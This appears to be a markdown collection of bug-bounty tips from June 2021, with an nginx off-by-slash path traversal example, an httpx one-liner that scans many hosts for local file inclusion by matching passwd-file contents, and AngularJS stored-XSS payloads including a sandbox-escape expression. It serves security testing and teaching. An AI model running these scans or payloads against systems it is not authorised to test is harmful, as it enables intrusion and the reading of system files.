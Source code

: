 # Bug Bounty Tips - June 2021

## Stumble upon 404 nginx servers? make sure to test for off-by-slash vulnerabilities

```text
http://example[.]com/index.php -> File not found
http://example[.].com/assets../index.php -> source code
```
**Try with img, js, assets, vendors, media as the folder name**
***Source: https://twitter.com/naglinagli/status/1401259603845918722?s=20***
***Reference: https://portswigger.net/bappstore/a5fdd2cdffa6410eb530de5a4c294d3a***

## Identify AD attack paths breaking the tier model using BloodHound
Github: https://github.com/improsec/ImproHound
Blogpost: https://improsec.com/tech-blog/improhound-identify-ad-tiering-violations
Demo video: https://youtu.be/zQ01tvTr6H0

## Exploiting outdated Apache Airflow instances
- https://ian.sh/airflow

## Quick test all the hosts for LFI via [@pdiscoveryio](https://github.com/projectdiscovery) - [httpx](https://github.com/projectdiscovery/httpx)

- https://github.com/hussein98d/LFI-files

```sh
httpx -l allhosts -paths /root/list.txt -threads 100 -random-agent -x GET,POST,PUT -title -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "root:[x*]:0:0:"
```

![img](https://pbs.twimg.com/media/E3ykkLOX0AUI1kA?format=jpg&name=large)

## AngularJS stored XSS
```text
1. Usual payload in product name as '"><img src onerror=alert(1)>x{{7*7}}
2. Output as '">x49
```
### Final payload
```js
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
```
***Source: https://twitter.com/4z1zu/status/1376139627220725760?s=20***

## File Upload Checklist
![img](https://pbs.twimg.com/media/ErhbCBAW8AElD5G?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbC7EXUAAPfqO?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbDodWMAARW98?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbEceXMAAZeLF?format=png&name=large)

